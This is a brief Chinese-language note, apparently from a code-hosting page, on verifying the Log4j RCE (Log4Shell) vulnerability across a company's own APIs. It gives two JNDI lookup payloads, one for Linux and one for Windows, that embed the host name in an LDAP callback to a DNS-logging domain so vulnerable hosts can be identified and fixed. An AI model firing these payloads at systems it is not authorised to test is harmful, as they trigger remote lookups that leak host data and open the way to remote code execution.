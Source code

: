 ## Web漏扫扫描Log4j RCE漏洞

在使用Web漏扫对公司API资产做Log4j RCE漏洞验证时会遇到一种情况：payload打出去了，但是在dns记录中过了很久才收到记录，而且dns中的域名使用的是随机字符串，根本不知道这是哪条API打出去触发的。下面提供了一种解决思路。

通过分析Log4j-Core支持的几种*Lookup, 可以将主机名记录到dns记录中。下面分别是Linux操作系统和Windows操作系统的payload:
  
- Linux payload: ${jndi:ldap://${env:HOSTNAME}.log4j.dnslog/} 
- windows payload: ${jndi:ldap://${env:COMPUTERNAME}.log4j.dnslog/} 

这种方式可以长期监控DNS请求数据库，有*.log4j.dnslog的请求，直接推修主机相关服务即可。

